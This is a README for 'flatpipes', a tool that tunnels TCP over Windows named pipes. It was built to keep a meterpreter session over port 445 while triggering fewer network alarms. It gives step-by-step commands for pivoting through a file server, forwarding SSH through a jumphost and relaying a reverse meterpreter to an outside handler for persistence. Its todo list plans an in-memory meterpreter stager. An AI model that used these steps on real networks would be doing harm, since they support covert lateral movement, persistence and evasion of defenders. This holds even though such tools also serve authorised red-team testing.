 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

#### - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server): *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*
> The above will create two pipes "pipename_s2c" & "pipename_c2s" and as soon as negotiation is ok will open a TCP listener at 10001

On the 2nd Windows host (pipe client): *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001*
> Here we just connect to the pipe(s) created earlier on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### - Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver: *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*
> The above will create our pipes for "IPC", and as soon as we connect, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes

On the jumphost: *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*
> The above will PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22

Just ssh on 127.0.0.1 22 and you are through the town portal


#### - Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver: *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*
> Same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter

On the jumphost: *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*
> We connect to the MS Fileserver and immediately connect to the handler. 

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---
*ps* I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.

I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<dl>
  <dt>Todo</dt>
  <dd>Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread) - Almost there</dd>
  <dd>"Monkey patch" the above stager to change port on the fly (on hex)</dd>
  <dd>Exception handling. Asap when pipe auth does not work</dd>
  <dd>Think any other useful scenarios</dd> 
</dl>
